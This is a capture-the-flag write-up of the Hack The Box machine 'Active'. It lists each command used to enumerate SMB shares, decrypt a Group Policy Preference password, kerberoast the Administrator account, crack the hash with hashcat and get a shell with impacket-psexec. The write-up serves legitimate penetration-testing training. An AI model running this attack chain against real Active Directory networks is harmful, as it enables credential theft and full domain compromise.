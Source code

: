 ```yaml
---
title: CTF Writeup - Active
date: 2025-01-09
categories: [Hackthebox]
tags: [Active Directory]
---
```


# Hack The Box - Active

## Description
Active is an easy machine that focusses on Windows Active Directory.<br>
This box is a good practive for the different techniques available for Active Directory pentesting.<br>

## Information Gathering

### Step 1: Enumeration
We start with running good olde nmap to enumerate the target machine.<br>

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/active_TCP 10.129.92.76
```
![alt text](/assets/screenshots/active/image.png)<br>

We can use enum4linux to gain some insight into the Active Directory environment.
```bash
# enum4linux -a -U 10.129.92.76
```
![alt text](/assets/screenshots/active/image-1.png)<br>
We have access to the Replication SMB share!

We can double check with netexec.
```bash
# netexec smb 10.129.92.76 -u '' -p '' --shares
```
![alt text](/assets/screenshots/active/image-2.png)<br>

## Exploitation

### Step 2: Open SMB server
Now that we know that we have access to the Replication share on the target machine we can connect to this share using smbclient.

```bash
# smbclient "//10.129.92.76/Replication"
```
![alt text](/assets/screenshots/active/image-3.png)<br>

To make it easy for ourselves, we car now recursive download all the files we see here so we can search through them on our kali machine.<br>
```bash
# recurse ON
# mget *
```
![alt text](/assets/screenshots/active/image-4.png)<br>
Now we are able to display all the folders and files we downloaded from the Replication smb share.<br>
![alt text](/assets/screenshots/active/image-5.png)<br>
We can now check each file that seems interesting for us.<br>

We found a hash in the Groups.xml file.

Now we need to find a way to elevate privileges.<br>
![alt text](/assets/screenshots/active/image-6.png)<br>
This seems to be a GPP password. 
Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword<br>

To decrypt the password we can use cpp-decrypt.<br>
![alt text](/assets/screenshots/active/image-7.png)<br>

We found the credentials for the SVC_TGS account.<br>
```bash
# netexec smb 10.129.92.76 -u SVC_TGS -p '[Password]'
```
![alt text](/assets/screenshots/active/image-8.png)<br>

### Step 3: Bloodhound
Now that we have found valid credentials for a user account on the target we can use these to enumerate the target and get information about the Active Directory environment.<br>
```bash
# netexec ldap 10.129.92.76 -u SVC_TGS -p '[Password]' --bloodhound --collection ALL --dns-server 10.129.92.76
```
![alt text](/assets/screenshots/active/image-9.png)<br>

If we load this zip file we created with the previous command into bloodhound we can visualize the Active Directory structures.<br>
![alt text](/assets/screenshots/active/image-10.png)<br>

There are a lot of things bloodhound can show us. For this situation we are interested in the keberoasteble users.<br>
![alt text](/assets/screenshots/active/image-11.png)<br>
If we check the kerberoastable users we can see the Administrator!<br>

## Privilege Escalation

Now that we know that the Administrator user is a kerberoastable account we can use the impacket-GetUserSPNs tool to perform the kerberoast attack and get us a hash for the administrator user.
```bash
# sudo impacket-GetUserSPNs -request -dc-ip 10.129.92.76 active.htb/SVC_TGS
```
![alt text](/assets/screenshots/active/image-12.png)<br>

Now that we have a hash for the Administrator user we can crack and crack this hash. First we past it into a file  and second we load the file with a cracking tool such as john the ripper or hashcat.

Let's use hashcat in this situation and use the rockyou.txt file as the password file.
```bash
# sudo hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt --force
```
![alt text](/assets/screenshots/active/image-13.png)<br>
And we got the admin password!

To verify if these credentials work we can use netexec.
```bash
# netexec smb 10.129.92.76 -u Administrator -p '[password]'
```
![alt text](/assets/screenshots/active/image-14.png)<br>

Let's login to this the target using impacket-psexec.
```bash
# impacket-psexec Administrator:"[password]"@10.129.92.76
```
![alt text](/assets/screenshots/active/image-16.png)<br>
Now we can grab the user.txt and root.txt files.

![alt text](/assets/screenshots/active/image-17.png)<br>
NOICE!

## Conclusion
To summarize this machine. It was a machine with open SMB shares that we could misuse to browse the Replication share containing a xml file with a user hash. After we got access to a valid user account we could kerberoast another user with administrator privileges.<br>

## Lessons Learned
- Check the SMB service for any open shares.
- Identify privileged service accounts using kerberoasting.
